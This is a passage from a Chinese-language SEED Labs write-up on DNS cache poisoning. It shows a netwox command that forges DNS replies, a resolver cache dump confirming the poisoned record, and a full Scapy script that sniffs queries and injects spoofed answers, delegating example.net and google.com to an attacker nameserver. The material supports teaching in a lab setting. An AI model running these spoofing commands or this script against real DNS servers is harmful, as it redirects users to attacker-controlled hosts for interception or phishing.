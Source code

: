 ![DNS劫持](https://github.com/SmallPond/SeedLabs/tree/master/_v_images/20191013171621337_14311.png)

## Task 6: DNS Cache Poisoning Attack
以上的攻击方法有一个很明显的缺点，每次用户查询都需要回复一个伪造的DNS回应包。所以接下来我们要去欺骗DNS服务器，然后让其缓存这个映射，之后每次都会从缓存中拿出结果回应给请求DNS查询的用户。这就是` DNS Cache Poisoning Attack`。

首先我们要修改Attacker的命令，将源主机IP改为DNS服务器的IP地址`10.0.2.130`，我们还使用ttl字段来表示我们希望假答案在DNS服务器的缓存中保留多长时间。 DNS服务器中毒后，我们可以停止Netwox 105程序。

```
sudo netwox 105 --hostname www.example.net --hostnameip "122.207.86.18" --authns "ns.example.net" --authnsip "122.207.86.18" --device "ens33" --filter "src host 10.0.2.130" --ttl 600 --spoofip raw
```

在DNS服务器上dump出缓存，结果如下：
```
[10/13/19]seed@VM:.../bind$ sudo rndc dumpdb -cache && sudo cat /var/cache/bind/dump.db| grep example
example.net.		172671	NS	a.iana-servers.net.
ns.example.net.		471	NS	ns.example.net.
www.example.net.	471	A	122.207.86.18
;		www.example.net A [lame TTL 471]
```

## Task 7: DNS Cache Poisoning: Targeting the Authority Section
在上一个任务中，我们的DNS缓存中毒攻击仅影响一个主机名，即www.example.net。 如果用户尝试获取另一个主机名的IP地址，例如mail.example.net，我们需要再次发起攻击。 如果我们发起一种可能影响整个example.net域的攻击，它将更加高效。

使用Scapy工具编写以下代码：

```
from scapy.all import *

def spoof_dns(pkt):
    if DNS in pkt and b'www.example.net' in pkt[DNS].qd.qname:
        ip = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        udp = UDP(dport=pkt[UDP].sport, sport=53)
        an1 = DNSRR(rrname=pkt[DNS].qd.qname, type='A',
                    ttl=259200, rdata='122.207.86.18')
        # The Authority Sectio
        ns1 = DNSRR(rrname='example.net', type='NS',
                    ttl=259200, rdata='attacker32.com')
        ns2 = DNSRR(rrname='google.com', type='NS',
                    ttl=259200, rdata='attacker32.com')
        # The Additional Section
        ar1 = DNSRR(rrname='attacker32.com', type='A',
                    ttl=259200, rdata='122.207.86.18')
        dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,
                  qdcount=1, ancount=1, nscount=2, arcount=1,
                  an=an1, ns=ns1/ns2,ar=ar1)
        spoofpkt = ip/udp/dns
        send(spoofpkt, verbose=1)

pkt = sniff(filter='udp and dst port 53', prn=spoof_dns)
```
在VMA上运行以上代码，在DNS服务器上清缓存，然后在VMB中`ping www.example.net`，再执行`dig www.example.com`可的下图内容。
![task8](https://github.com/SmallPond/SeedLabs/tree/master/_v_images/20191013173148384_2884.png)
